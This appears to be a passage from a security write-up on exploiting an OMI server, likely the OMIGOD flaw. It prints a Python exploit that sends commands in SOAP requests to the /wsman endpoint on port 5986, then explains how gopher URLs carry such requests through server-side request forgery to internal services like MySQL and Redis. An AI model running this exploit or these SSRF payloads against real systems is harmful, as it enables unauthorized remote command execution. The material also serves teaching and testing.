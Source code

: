 ```python

def exploit(target, command):
    headers = {'Content-Type': 'application/soap+xml;charset=UTF-8'}
    r = requests.post(f'https://{target}:5986/wsman', headers=headers, data=DATA.format(command), verify=False)
    output = re.search('<p:StdOut>(.*)</p:StdOut>', r.text)
    error = re.search('<p:StdErr>(.*)</p:StdErr>', r.text)
    if output:
        if output.group(1):
            print(output.group(1).rstrip('&#10;'))
    if error:
        if error.group(1):
            print(error.group(1).rstrip('&#10;'))

if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='The IP address of the target', required=True)
    parser.add_argument('-c', '--command', help='The command to run')
    args = parser.parse_args()

    exploit(args.target, args.command)
```

We can see that a `POST` request is being made , where the body is the `SOAP` data, and the `command` is being passed to be executed.   We need a way to pass this request to the `OMI` server. The only way is by using the `gopher` protocol. 

### **What is Gopher?**

Gopher is a protocol that uses TCP to retrieve files and menus in a hierarchical structure. Unlike HTTP/HTTPS, Gopher doesn't use headers and payloads in the same way, which allows it to interact with services that expect raw TCP inputs, such as databases (MySQL, Redis) or email servers (SMTP).

---

### **How Gopher Enables SSRF Exploitation**

1. **Direct TCP Communication**:
    
    - With Gopher, you can craft a payload to directly communicate with backend services by specifying the IP address, port, and data to be sent.
    - Example: `gopher://127.0.0.1:3306/` can send raw commands to a MySQL database running on the target server.
2. **Bypassing HTTP Limitations**:
    
    - SSRF vulnerabilities often only allow HTTP or HTTPS requests.
    - Some systems support Gopher requests, enabling interaction with services that don’t use HTTP (e.g., Redis, MySQL, SMTP).
3. **Custom Payload Crafting**:
    
    - Gopher URLs can encode arbitrary commands to send to the target service.
    - Example: Sending a Redis `SET` command to insert malicious data into the Redis database.

---